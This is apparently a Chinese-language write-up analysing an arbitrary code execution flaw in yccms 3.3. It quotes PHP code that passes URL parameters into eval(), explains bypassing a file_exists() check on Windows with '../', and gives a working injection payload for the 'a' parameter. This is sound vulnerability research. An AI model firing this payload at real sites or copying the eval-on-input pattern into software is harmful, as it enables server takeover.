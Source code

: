 ## yccms3.3 任意代码执行漏洞分析

------

### 前言

​	搜索这个cms的时候无意发现还有人发了这个cms的命令执行漏洞的文章，于是继续分析一波

### 分析过程

​	还是直接的全局搜索了一下敏感函数，找了一下eval，定位到了这几个文件

Action.class.php	Factory.class.php	run.inc.php（入口文件）

​	首先分析的是Action.class.php

```php
class Action {
	protected $_tpl = null;
	protected $_model = null;	
	protected function __construct() {
		$this->_tpl = TPL::getInstance();
		$this->_model = Factory::setModel();
		Tool::setRequest(); //表单转义和html过滤	
	}
...
	public function run() {
		$_m = isset($_GET['m']) ? $_GET['m'] : 'index';
		//var_dump($_m);
		//$vuln = '$this->'.$_m.'();';
		//var_dump($vuln);
		//exit();
		method_exists($this, $_m) ? eval('$this->'.$_m.'();') : $this->index();
	}
}
```

​	这里的m是我们人为可以控制的，也没什么过滤，但下面有个 method_exists() ，找了一下，没找到什么绕过方法，这个点估计也利用不起来了，所以把目标转到了另一处eval。

Faction.class.php

```php
class Factory{
	static private $_obj=null;
	static public function setAction(){
		$_a=self::getA();//白名单进行限制
		if (in_array($_a, array('admin', 'nav', 'article','backup','html','link','pic','search','system','xml','online'))) {
			if (!isset($_SESSION['admin'])) {
				header('Location:'.'?a=login');
			}
		}
		//var_dump(ROOT_PATH.'/controller/'.$_a.'Action.class.php');
		//echo '<br>';
		//var_dump('self::$_obj = new '.ucfirst($_a).'Action();');
		
		//file_exists检测文件是否存在
		if (!file_exists(ROOT_PATH.'/controller/'.$_a.'Action.class.php')) $_a = 'Index';
		//var_dump($_a);
		//echo 'here';
		//var_dump('self::$_obj = new '.ucfirst($_a).'Action();');
		//exit();
		eval('self::$_obj = new '.ucfirst($_a).'Action();');
		//exit();
		return self::$_obj;
	}
	
	static public function setModel() {
		$_a = self::getA();
		if (file_exists(ROOT_PATH.'/model/'.$_a.'Model.class.php')) eval('self::$_obj = new '.ucfirst($_a).'Model();');
		return self::$_obj;
	}
	static public function getA(){
		if(isset($_GET['a']) && !empty($_GET['a'])){
			return $_GET['a'];
		}
		return 'login';
	}
}
```

run.inc.php

```php
Factory::setAction()->run();
```

​	在run.inc.php中调用了Factory中的setAction函数后再去调用run()函数，run()在上面那个文件里分析过利用不起来了，所以目标转向setAction()，首先获取了传过去的a值，然后进入一个乍一看是白名单实际上不知道是什么东西的判断语句后来到下面的file_exists()这进行判断，而在windows下经过测试，在后面加上个 ../ 就能绕过了（linux下还没测过）。把file_exists() 绕过后其实就没什么了，直接闭合前面的语句然后注入代码就好了

```php
payload:?a=factory();phpinfo();exit();//../
```

​	后来再看的时候，发现其实 Action.class.php 也是可以利用的，在这个类 __construct() 的过程中调用了 Factory 类中的 setModel() 函数，不过似乎想去利用这个点之前都要经过一次 setAction() ，所以就没必要折腾了，直接利用setAction() 就好了。